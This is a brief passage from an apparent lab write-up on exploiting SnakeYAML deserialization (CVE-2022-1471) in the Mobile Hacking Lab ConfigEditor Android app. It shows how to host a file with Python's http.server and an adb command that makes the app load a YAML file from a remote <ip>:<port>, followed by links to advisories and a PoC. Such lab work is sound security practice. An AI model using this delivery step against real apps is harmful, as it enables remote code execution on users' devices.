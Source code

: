 

<br />

<br />

Start python server

```bash
python -m http.server
```



**adb**

```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d http://<ip>:<port>/example.yaml
```

<br />

<br />

<br />



![](/assets/img/mhl/ConfigEditor/1.png)





<br /><br />

Reference

- https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471
- https://medium.com/@snyksec/snakeyaml-2-0-solving-the-unsafe-deserialization-vulnerability-c29a0f08f152
- https://security.snyk.io/package/maven/org.yaml%3Asnakeyaml/1.28
- https://www.veracode.com/blog/resolving-cve-2022-1471-snakeyaml-20-release-0/
- https://www.labs.greynoise.io/grimoire/2024-01-03-snakeyaml-deserialization/
- https://github.com/falconkei/snakeyaml_cve_poc

